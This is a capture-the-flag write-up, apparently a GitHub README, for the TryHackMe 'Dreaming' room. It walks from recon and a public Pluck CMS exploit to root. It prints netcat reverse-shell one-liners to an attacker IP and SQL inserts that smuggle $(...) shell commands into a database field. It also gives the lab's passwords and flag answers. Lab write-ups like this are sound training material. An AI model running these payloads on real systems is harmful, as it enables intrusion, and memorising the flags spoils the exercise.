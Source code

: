 
---

# TryHackMe – Dreaming Walkthrough

Welcome to the **Dreaming** room walkthrough. This box was fun and full of little surprises. Let's walk through the steps I took to escalate from a basic web recon to full root.

---

## Nmap Scan

I started with a service scan:

```bash
nmap -T4 -A -O MACHINE_IP
```

Open Ports:

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```

---

## Web Enumeration

I added the IP to my `/etc/hosts` file and started scanning with Dirsearch:

```bash
dirsearch -u http://10.10.181.164:80
```

Found the subdirectory:

```
/app/
```

Navigating to `http://10.10.181.164/app/` led to a webpage.

![Screenshot From 2025-05-16 20-54-47](https://github.com/user-attachments/assets/e8e21216-e17f-4837-93ff-6a5b0bbf50cf)


---

### CMS Discovery

Clicking on `pluck-4.7.13/` revealed the CMS in use.

![Screenshot From 2025-05-16 20-55-49](https://github.com/user-attachments/assets/29755f46-6b23-4a81-b33a-3102a937b187)


Pluck CMS version 4.7.13 was confirmed. Clicking into the `/admin` page gave me a login screen.

I tried some weak default passwords and surprisingly got in with one. Big win!

![Screenshot From 2025-05-16 21-12-29](https://github.com/user-attachments/assets/c4e8fb94-012f-4c61-bfec-6c2a3e24d72c)


---

## RCE Exploit

After identifying the CMS, I found this public exploit:

[https://www.exploit-db.com/exploits/49909](https://www.exploit-db.com/exploits/49909)

Using it, I navigated to file management and uploaded a payload using the script:

```bash
python3 pluck_rce.py 10.10.181.164 80 password /app/pluck-4.7.13
```

![Screenshot From 2025-05-16 21-41-32](https://github.com/user-attachments/assets/378dbc02-9885-48e2-ba57-e39a137720de)


This gave me command execution.

![Screenshot From 2025-05-16 21-45-49](https://github.com/user-attachments/assets/d2f01a2b-9654-4913-9d92-9845b7d25f2f)


---

## Reverse Shell

To upgrade access, I launched a reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.217.110 4445 >/tmp/f
```

And on my machine:

```bash
nc -lnvp 4445
```

![Screenshot From 2025-05-16 22-00-22](https://github.com/user-attachments/assets/6f8879bd-3a34-4d94-a947-1c7d99c45cf7)


---

## Enumeration

Inside the shell, I checked `/etc/passwd` for users:

```bash
cat /etc/passwd | grep 'bash'
```

Users:

* root
* lucien
* death
* morpheus
* ubuntu

I navigated to `/opt` and found two files. One was `test.py` which revealed:

```
Username: Lucien  
Password: HeyLucien#1999!
```

![Screenshot From 2025-05-16 22-11-46](https://github.com/user-attachments/assets/5b14d630-64dd-4793-9eb4-505b50a78d4e)


---

## SSH as Lucien & Privilege Escalation

With Lucien's credentials, I got in via SSH and found the first flag.

> Q1: What is the Lucien Flag?
> A1: THM{TH3\_L1BR4R14N}

Then ran:

```bash
sudo -l
```

Discovered Lucien could run:

```bash
/usr/bin/python3 /home/death/getDreams.py as user death
```

Couldn't read it directly but remembered a copy in `/opt`.

---

## Understanding `getDreams.py`

Here’s the logic:

* Connects to MySQL as user **death**
* Queries `dreamer`, `dream` from the `dreams` table
* Uses `subprocess` to echo each row

![Screenshot From 2025-05-16 22-20-08](https://github.com/user-attachments/assets/e9579153-52a7-4c19-9130-3615477f0490)


Vulnerable line:

```python
command = f"echo {dreamer} + {dream}"
```

We can exploit this using **command substitution** like:

```bash
echo "$(id)"
```

---

## Finding DB Credentials

Searched Lucien's `.bash_history` and found:

```bash
mysql -u lucien -plucien42DBPASSWORD
```

Logged in, and added a new malicious entry:

```sql
INSERT INTO dreams (dreamer, dream) VALUES ('Nightmare', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.217.110 4444 >/tmp/f)');
```

Then ran:

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

![Screenshot From 2025-05-16 22-30-21](https://github.com/user-attachments/assets/9de6457c-fb19-4b01-9c73-b9557b4b721e)


---

## Gaining Death’s Password

Later I used a SQL trick to dump the contents of `getDreams.py`:

```sql
INSERT INTO dreams (dreamer, dream) VALUES ('', '$(cat /home/death/getDreams.py | base64)');
```

Then decoded it and found the credentials:

```
Username: Death  
Password: !mementoMORI666!
```

Logged in and got the second flag.

> Q2: What is the Death Flag?
> A2: THM{1M\_TH3R3\_4\_TH3M}

---

## Getting Root

I created a reverse shell in the final Python script and ran:

```bash
python3 /opt/getDreams.py
```

Listener on:

```bash
nc -lnvp 9999
```

Boom — root shell.

---

> Q3: What is the Morpheus Flag?

> A3: THM{DR34MS\_5H4P3\_TH3\_W0RLD}

---

## Conclusion

This room had it all — poor passwords, RCE, bash history leakage, and misconfigured sudo permissions. Every step tied together neatly and offered a solid mix of enumeration and exploitation. Great practice!
